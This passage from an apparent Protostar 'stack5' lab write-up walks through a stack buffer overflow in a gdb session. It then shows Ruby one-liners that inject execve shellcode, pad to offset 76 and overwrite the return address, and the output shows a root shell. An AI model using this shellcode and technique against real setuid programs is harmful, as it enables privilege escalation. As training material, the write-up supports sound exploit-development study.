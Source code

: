 (gdb) b *0x080483d4
Breakpoint 1 at 0x80483d4: file stack5/stack5.c, line 10.

(gdb) b *0x080483d9
Breakpoint 2 at 0x80483d9: file stack5/stack5.c, line 11.

(gdb) r
Starting program: /home/user/fixenv/.launcher 

Breakpoint 1, 0x080483d4 in main (argc=1, argv=0xbffff914) at stack5/stack5.c:10
10	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c

(gdb) x /xw $esp
0xbffff810:	0xbffff820

(gdb) c
Continuing.
ABCDEFGH

Breakpoint 2, main (argc=1, argv=0xbffff914) at stack5/stack5.c:11
11	in stack5/stack5.c
(gdb) x /s 0xbffff820
0xbffff820:	 "ABCDEFGH"
{% endcodeblock %}

The address `0xbffff820` represents the buffer[] address, we store our
shellcode here and jump to this address. Also we know, that return address is
overwritten after position 76, from Protostar Stack4. We created our shellcode 
[here](http://localhost:4000/blog/2015/06/26/ia-32-linux-shellcode-basics-2/).

{% codeblock %}
user@protostar:~/fixenv$ ruby -e 'sc="\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"; print sc + "\x90" * (76 - sc.length) + [0xbffff820].pack("V") ' | ./r.sh /opt/protostar/bin/stack5 
user@protostar:~/fixenv$ 
{% endcodeblock %}

The shell is executed, however it receives EOF. For this purposes, we can keep it alive with `cat` command:

{% codeblock %}
user@protostar:~/fixenv$ (ruby -e 'sc="\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"; print sc + "\x90" * (76 - sc.length) + [0xbffff820].pack("V") '; cat -) | ./r.sh /opt/protostar/bin/stack5

id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
{% endcodeblock %}

Sometimes a more convenient solution could be storing shellcode in environment:

{% codeblock %}
user@protostar:~/fixenv$ export EGG=$(ruby -e 'print "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
